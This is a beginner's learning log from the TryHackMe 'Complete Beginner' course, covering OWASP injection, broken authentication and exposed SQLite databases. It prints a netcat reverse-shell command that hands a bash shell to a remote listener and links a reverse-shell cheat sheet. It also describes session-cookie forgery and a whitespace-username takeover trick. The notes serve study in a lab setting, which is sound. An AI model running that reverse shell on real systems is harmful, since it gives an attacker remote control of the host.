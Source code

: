 ```yaml
---
title: 'TryHackMe: Complete Beginner'
date: 2021-10-05 12:00:00.000000000 Z
layout: post-external
original_link: https://cardboard-iguana.com/log/2021-10-05-tryhackme-complete-beginner.html
author: 100007
---
```


# TryHackMe: Complete Beginner

**author:** Nathan Acks  
**date:** 2021-10-05

# OWASP Top 10

## (Severity 01) Injection

Some versions of netcat support a -e flag that hooks STDIN and STDOUT of an executable to the established network connection. So something like:

```
nc -e /bin/bash $LOCAL_IP $LOCAL_PORT
```

I’m pretty sure that this would have allowed us to avoid all of the named-pipe-magic that Metsploit generated a couple of days ago… Though I’m also pretty sure that Metasploit’s code is more robust (since it will work with versions of nc that _don’t_ support the -e flag).

[A library of reverse shell methods.](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

Injection attacks can be divided into two broad classes:

BLIND attacks are ones where command output is not returned to the attacker in a server response.

ACTIVE attacks are those where the command output _is_ returned to the attacker in a server response.

- [2021-10-02 - TryHackMe: Complete Beginner](https://cardboard-iguana.com/log/2021-10-02-tryhackme-complete-beginner.html)

## (Severity 02) Broken Authentication

Sometimes you don’t need to steal a session cookie… If the webserver isn’t setting session cookies in a sufficiently random fashion, _forging_ one can become an option!

The TryHackMe tutorial implies that a common mistake is to allow the registration of a username that matches an existing user but with a leading or trailing whitespace character; sometimes this new user will be interpreted to be the same as the old user (the one without the whitespace), resulting in the same level of access as that user.

Honestly, I’m trying to imagine how this would happen in most realistic contexts. Yes, it’s easy to construct an example in Bash (etc.), but most languages I’ve seen web apps written it take string quoting a lot more seriously.

## (Severity 03) Sensitive Data Exposure

So, the trick this section is talking about is that some small web applications use SQLite databases, and a sloppy webdev might store the database file in the application webroot where it can be downloaded and then read at our leisure.

